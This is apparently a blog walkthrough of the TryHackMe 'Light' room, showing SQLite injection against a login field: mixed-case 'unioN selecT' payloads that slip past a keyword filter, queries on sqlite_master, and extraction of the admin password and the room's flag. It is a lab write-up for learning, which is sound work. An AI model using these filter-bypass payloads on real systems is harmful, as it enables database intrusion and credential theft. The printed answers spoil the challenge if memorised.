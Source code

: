 This walkthrough will guide you through solving the TryHackMe room called Light. The room focuses on exploiting SQL injection vulnerabilities and learning how to extract sensitive information from a database. Below, I provide the steps I took, insights gained, and the queries I used to solve the challenges in this room.

Firstly, I started with scanning the victim host with `nmap`, but this was not needed in this task. The open port 22 for SSH connections was meant to misdirect users during this exercise. Because of that I'm not going to post any screenshots of typical enumeration with `nmap` here. I tried brute forcing SSH but with no success. With this walkthrough I'm just gonna go straight for the database.

I started with user `smokey` As it was written in the task. In the output I received password for this user which was: `vYQ5ngPpw8AdUmL`.

![1. Smokey login](/images/TryHackMe/Light/1_smokey_login.png)


If this is an exercise on SQL injections, it means that the database will be vulnerable to such attacks. I started using some unusual characters that wouldn’t typically appear in user input for normal databases to observe the database's response. The first interesting observation I made was that when I used `'`, I received the following error: `Error: unrecognized token: "''' LIMIT 30"`

![2.Error](/images/TryHackMe/Light/2_error.png)

This output provided me with really helpful information and insight into how the command is created on the database side. The query seems to be something like this:

`SELECT password FROM table WHERE username='user_input' LIMIT 30`

Unfortunately, I didn’t check in the browser what this error could mean. If I had, it wouldn’t have taken me as long as it did. In this walkthrough, I’ll jump straight into the error and explain how it was useful for my later penetration testing.
Firstly, I assumed this was a MySQL database and attempted to gather information using MySQL commands. However, after searching for this error, I found the following article:
[Solving 'Unrecognized Token' Error While Using SQLite Insert Command](https://stackoverflow.com/questions/57017469/solving-unrecognized-token-error-while-using-sqlite-insert-command). 
This revealed that the database was not MySQL but SQLite, which will be useful later in the task.

I started creating various SQLi payloads and encountered an interesting output. When I used `--`, a common part of SQLi, I received the following output:

![3. Filter1](/images/TryHackMe/Light/3_filter1.png)

This indicated that these characters were restricted. I continued experimenting with different SQLi techniques. For reference, here is a helpful [SQLi payload list](https://github.com/payloadbox/sql-injection-payload-list). At one point, I began using `UNION SELECT` payloads and observed another interesting behavior.

![4. Filter2](/images/TryHackMe/Light/4_filter2.png)


The filter was blocking `/*`, `--`, `%0b`, and `UNION SELECT` statements. However, it only flagged these operators when written entirely in lowercase or uppercase. If I used a mix of cases (e.g., `unioN selecT`), the filter allowed it.

![5. Filter3](/images/TryHackMe/Light/5_filter3.png)


I looked for SQLite-specific commands to identify the table names. This [helpful article](https://stackoverflow.com/questions/71160273/how-to-find-information-on-all-columns-in-a-sqlite-database) guided me to the following query:
```
SELECT name FROM sqlite_master WHERE type = 'table
```

Is a way to go. I just need to tailor it for my needs. Based on what I learned so far I create below query:

```
' unioN Select name FROM sqlite_master WHERE type='table
```

![6. Table name](/images/TryHackMe/Light/6_table_name.png)

This returned the table name: `admintable`.


Here if I would use ‘UNION SELECT’ or ‘union select’ or mix of those I would not get the desirable response from the server as the filter is filtering for input that I described previously that's why I used one capital letter in each word.

Okay,  right now I have the table name and now I need to figure out what are the names of the columns used in the table. I browsed the internet looking on how I can get this information in SQLITE. At some point I found another [helpful article](https://stackoverflow.com/questions/947215/how-to-get-a-list-of-column-names-on-sqlite3-database) which gave me an idea on my next payload. By using the below syntax I managed to discover columns’ names.

```
' unioN seleCt sql FROM sqlite_master WHERE tbl_name='admintable' AND type='table
```

![7. Table collums](/images/TryHackMe/Light/7_table_collums.png)


Based on this output I know there are three columns named respectively `id`, `username` and `password`. 

Then I focused on discovering how many rows are in this table by searching the Internet and  I came up with this idea.

```
' uNion Select COUNT(*) FROM 'admintable
```

![8.Table rows count](/images/TryHackMe/Light/8_table_rows_count.png)

Now I know that there are two records In the table. One method that could be used right now is to enumerate the whole database with the correct SQL query by checking the username with each letter of the alphabet. If there are only two rows that means that it wouldn't be that much work to do. I decided to blindly use below command to figure out at least one of the usernames in the database and by knowing one of them I can create a query to figure out the second one.

```
' unioN selecT username FROM admintable WHERE username LIKE '%
```

![9. Admin username](/images/TryHackMe/Light/9_admin_username.png)


If you don't understand this query and how `WHERE` and `LIKE` operators work then you need to read on your own - that's how we learn! Also, this is not a place where I am focusing on explaining exactly how SQL queries are created and how they work.

This is an answer to the first question.

```
What is the admin username?
TryHackMeAdmin
```

Now I need to create a query to discover TryHackMeAdmin user password. So far I know everything I need to know to do it.

```
' unioN selecT password FROM admintable WHERE username LIKE 'Try%
```

![10. Smokey login](/images/TryHackMe/Light/10_admin_password.png)


This is an answer to the second question.

```
What is the password to the username mentioned in question 1?
mamZtAuMlrsEy5bp6q17
```

If there are two records in the table and I know one of them I can just create a reverse query by asking for a username that is not a username of  TryHackMeAdmin. To do that I will use `NOT LIKE` operator. 

```
' unioN Select username FROM admintable WHERE username NOT LIKE 'TryHackMeAdmin
```

![11. Flag username](/images/TryHackMe/Light/11_flag_username.png)

Now I know that the second username is `flag`. I will ask the database on what is this users’ password.

`' unioN selecT password FROM admintable WHERE username='flag`

![12. Flag password](/images/TryHackMe/Light/12_flag_password.png)

And this is the answer to the first question and the flag do its exercise

```
What is the flag?
THM{SQLit3_InJ3cTion_is_SimplE_nO?}
```


